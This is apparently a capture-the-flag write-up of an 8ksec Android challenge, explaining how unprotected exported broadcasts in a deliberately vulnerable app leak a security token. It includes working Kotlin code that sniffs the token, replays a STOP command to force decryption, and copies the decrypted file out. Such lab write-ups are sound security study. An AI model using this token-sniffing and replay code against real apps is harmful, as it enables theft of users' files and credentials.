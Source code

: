 ```yaml
---
title: "Challenge 02: AndroPseudoProtect"
published: 2025-09-15
description: "Exploiting IPC broadcast vulnerabilities to extract security tokens and bypass file encryption protection."
image: "https://lwfiles.mycourse.app/66c35021da1fe6df974b8aee-public/42e3aa7f390f8662c067b48de036761c.png"
category: "Mobile"
tags: ["android","8ksec.io", "mobile-exploitation", "ipc", "broadcast-receiver", "token-extraction", "file-encryption"]
series:
  id: "8ksec-android-challenges"
  order: 2
---
```


*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

## 1. Challenge Overview

We are given a victim application (`com.eightksec.andropseudoprotect`) that encrypts`/sdcard/Download/` when  “encryption” mode is enabled.

It requires a **security token** to toggle encryption/decryption, which it sends via broadcasts or services with two actions:

- `com.eightksec.andropseudoprotect.START_SECURITY`
- `com.eightksec.andropseudoprotect.STOP_SECURITY`

The challenge:

> Build a PoC app that can extract the token during normal app usage, use it to send a STOP command to the victim app, wait for it to decrypt the file, and then exfiltrate the decrypted file — all without requiring extra runtime permissions beyond storage/notification.
>

---

## 2. Vulnerability Analysis

Using JADX, we can see that we got a service provider and a broadcast receiver, both are exported.

![alt text](image.png)

First thing to check in the service provider is `onStartCommand()` method.

![alt text](image-1.png)

and the `onReceiver()` method for the broadcast receivers  

![alt text](image-2.png)

so where is the vulnerability? check the main activity ;”D

![alt text](image-3.png)

This allows *any* application on the device to register a receiver for `SecurityService.ACTION_START_SECURITY` and capture the `EXTRA_SECURITY_TOKEN` value without user consent or elevated privileges.

### IPC Broadcast Token Leakage

The victim app’s broadcasts:

- Are **not protected** by permissions.
- Contain the `security_token` extra directly.
- Can be sniffed by **any** app with a registered receiver (I used dynamic).

This means a malicious app can:

1. Listen for these broadcasts.
2. Capture the security token.
3. Reuse it to send the same service commands to decrypt and access the files.

---

## 3. Exploitation Strategy

We used **dynamic broadcast receiver registration** to stealthily hook into the victim’s IPC.

**Flow:**

1. **Start Sniffer**: On launch, our PoC automatically registers a broadcast receiver for START/STOP actions.
2. **Capture Token**: Once the victim app broadcasts a `START_SECURITY` action, we store the token.
3. **Silent STOP Command**: After waiting ~5 seconds (for victim encryption to complete), we send a `STOP_SECURITY` broadcast with the captured token.
4. **Exfiltration**: Wait for decryption to finish, then move `THIS_IS_A_POC.TXT` from `/sdcard/Download/` to `/sdcard/POC_RETRIEVED/` to prove that we can now access the file.

---

## 4. Implementation Details

### 4.1 Storage Permission Handling

We support Android R+ **MANAGE_EXTERNAL_STORAGE** and legacy READ/WRITE for older versions.

The app automatically prompts if permissions are missing.

---

### 4.2 Dynamic Token Sniffer

```kotlin
private fun startDynamicSniffer() {
    if (sniffReceiver != null) return
    sniffReceiver = object : BroadcastReceiver() {
        override fun onReceive(context: Context?, intent: Intent?) {
            val token = intent?.getStringExtra("security_token") ?: return
            capturedToken = token
            Log.i("POC", "🎯 TOKEN CAPTURED: $token")
            Handler(mainLooper).postDelayed({ automateAttack() }, 5000)
        }
    }
    val filter = IntentFilter().apply {
        addAction("com.eightksec.andropseudoprotect.START_SECURITY")
        addAction("com.eightksec.andropseudoprotect.STOP_SECURITY")
    }
    registerReceiver(sniffReceiver, filter)
}
```

### 4.3 Automated Attack Sequence

```kotlin
private fun automateAttack() {
    stopSecurity()
    Handler(mainLooper).postDelayed({ movePOCFile() }, 5000)
}
```

**STOP Command:**

```kotlin
private fun stopSecurity() {
    val stopIntent = Intent().apply {
        action = "com.eightksec.andropseudoprotect.STOP_SECURITY"
        setPackage("com.eightksec.andropseudoprotect")
        putExtra("security_token", capturedToken)
    }
    sendBroadcast(stopIntent)
}
```

### 4.4 File Retrieval

We search `/sdcard/Download/THIS_IS_A_POC.TXT` and copy it to `/sdcard/POC_RETRIEVED/` after decryption.

```kotlin
private fun movePOCFile() {
    val downloads = Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS)
    val pocFile = File(downloads, "THIS_IS_A_POC.TXT")
    val destDir = File(Environment.getExternalStorageDirectory(), "POC_RETRIEVED").apply { mkdirs() }
    FileInputStream(pocFile).use { input ->
        FileOutputStream(File(destDir, pocFile.name)).use { output ->
            input.copyTo(output)
        }
    }
}
```

## 5. Attack Demonstration (ADB Logs)

![alt text](image-4.png)

## 6. Lessons Learned

- **IPC broadcasts without permission protection are dangerous** — especially when they contain sensitive tokens.
- **Dynamic registration** allows stealth attacks without static manifest clues.
- Always validate the sender and require permissions or signatures when exposing security-critical IPC.

## 7. POC

you can get the `POC` on my github.
